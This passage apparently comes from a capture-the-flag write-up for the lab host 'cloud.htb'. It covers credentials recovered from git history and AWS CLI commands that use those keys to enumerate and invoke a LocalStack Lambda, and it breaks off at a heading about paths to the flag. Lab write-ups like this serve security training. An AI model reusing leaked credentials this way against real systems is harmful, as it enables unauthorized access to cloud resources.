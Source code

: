 **Key takeaways from diffs:**
- `create_function.py` sets **`endpoint_url=http://cloud.htb`** (not real AWS) and `region_name='us-east-2'`.
- Lambda **FunctionName**: `accserv-dev`
- Earlier commits briefly hard‑coded STS‑looking keys (`ASI...`), later moved to env vars.
- Script uploads **`code.zip`** to create/update the Lambda; env vars show `Name='accserv-dev'`, `Environment='dev'`.

---

## 3) Point `cloud.htb` to the target & enumerate LocalStack Lambda

### 3.1 Host mapping
```bash
echo "10.129.198.137 cloud.htb" | sudo tee -a /etc/hosts
```

### 3.2 AWS CLI against the **local** cloud (LocalStack)
```bash
export AWS_ACCESS_KEY_ID='ASIACVH82GQZDCNK2X9B'
export AWS_SECRET_ACCESS_KEY='cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
export AWS_DEFAULT_REGION='us-east-2'

# List the Lambda
aws --endpoint-url http://cloud.htb lambda list-functions --region us-east-2

# Function details / env
aws --endpoint-url http://cloud.htb lambda get-function-configuration --function-name accserv-dev

# Try to fetch code (Location points to 127.0.0.1:4566 — local to target)
aws --endpoint-url http://cloud.htb lambda get-function --function-name accserv-dev --query 'Code.Location' --output text
```

**Observed:**
- `Code.Location` → `http://127.0.0.1:4566/2015-03-31/functions/accserv-dev/code` (LocalStack)
- Direct download from attacker box fails (4566 not exposed externally).
- Direct invokes return `{"body":"\"Still in development\"","statusCode":200}`.
- API Gateway / S3 on LocalStack returns HTTP 400 (not provisioned).

```bash
aws --endpoint-url http://cloud.htb lambda invoke --function-name accserv-dev /tmp/out.json >/dev/null
cat /tmp/out.json
# -> {"body":"\"Still in development\"","statusCode":200}
```

---

## 4) Paths to the flag
